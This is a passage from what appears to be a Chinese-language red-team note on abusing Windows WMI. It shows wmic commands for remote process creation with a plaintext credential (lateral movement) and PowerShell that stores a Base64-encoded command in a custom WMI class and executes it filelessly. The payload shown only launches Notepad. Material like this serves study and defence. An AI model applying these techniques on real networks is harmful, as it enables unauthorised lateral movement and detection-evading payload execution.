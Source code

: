 
## 3. 横向移动 

```
wmic /node:192.168.240.144 /user:ring2\win10 /password:trend#1. process call create "notepad.exe"
wmic /node:192.168.240.144 /user:ring2\win10 /password:trend#1. process where name="notepad.exe" delete
```

![image-20200903142217578](/assets/img/image-20200903142217578.png)

如果出现RPC 服务器不可用”这个错误，可以确认下防火墙入站规则中是否开启了wmi

![img](/assets/img/1963614-20200315091802828-1562494016.png)





## 4. 存储payload

把payload 存储在类属性中，不会留下文件，实际位于硬盘上的一个复杂的数据库中(objects.data)

```
【管理员权限】

# 新建evil ManagementClass
$evilClass = New-Object System.Management.ManagementClass("root\cimv2", $null, $null) 
$evilClass.__CLASS = "evil"
$evilClass.Properties.Add("Code", [System.Management.CimType]::String, $false)
$command = "Start-Process notepad.exe"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
$evilClass.Properties["Code"].Value = $encodedCommand
$evilClass.Put() 

# 执行储存在evil class属性中的代码
$code = ([wmiclass]"\\.\root\cimv2:evil").Properties["Code"].value 
powershell.exe -enc $code

# 删除
$evilClass.delete()
```



# 更多
